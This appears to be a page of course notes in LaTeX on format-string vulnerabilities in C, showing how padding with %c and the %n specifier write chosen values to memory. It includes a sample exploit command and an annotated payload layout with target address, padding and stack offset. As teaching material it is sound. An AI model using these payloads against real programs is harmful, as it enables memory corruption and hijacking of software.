 \documentclass{article}
\begin{document}
\paragraph{Writing arbitrary numbers} 
\begin{lstlisting}[style=CStyle]
void main(){		//padding.c
	printf("%050c\n",'D');
	printf("%030c\n",'D');
	printf("%013c\n",'D');
}
\end{lstlisting}
\begin{lstlisting}[language=bash]
$ ./padding
00000000000000000000000000000000000000000000000000D	#50
000000000000000000000000000000D	#30
0000000000000D		#13
\end{lstlisting}
Using this:
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "\x41\x41\x41\x41%50000c%2$n"'`"
\end{lstlisting}
We are writing the value 50004 (50000 for the padding, 4 for the bytes of the address)
\paragraph{The vulnerability so far} $\underbrace{\backslash xcc \backslash xf6 \backslash xff \backslash xbf}_{\substack{\text{the address of the}\\\text{memory cell}\\\text{we want to modify}}}
\%\underbrace{6024}_{\substack{\text{value we want}\\-4\text{(address)}}}c
\underbrace{8}_{\substack{\text{offset on the stack}\\\text{of the target address}\\\text{found using \%x to read)}}}\$n$
\paragraph{Writing big numbers} we usually want to write a valid 32 bit address ad an arbitrary number. This could require a super long padding string (up to 4GB). To reduce the size written, we can split it in 2 16-bit words. \\
Because using \%c we can only increase, and we must perform the writing twice \underline{in the same string} (as we can only pass one string), we need to do some math:
\begin{enumerate}
\item Word with lower \underline{absolute value}
\item Word with higher \underline{absolute value}
\end{enumerate}
\end{document}
